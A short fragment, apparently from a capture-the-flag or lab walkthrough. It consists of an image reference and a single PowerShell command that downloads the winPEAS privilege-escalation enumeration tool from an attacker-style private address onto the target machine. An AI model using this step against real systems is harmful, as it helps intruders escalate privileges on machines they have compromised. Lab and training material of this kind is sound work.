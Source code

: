 
```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```

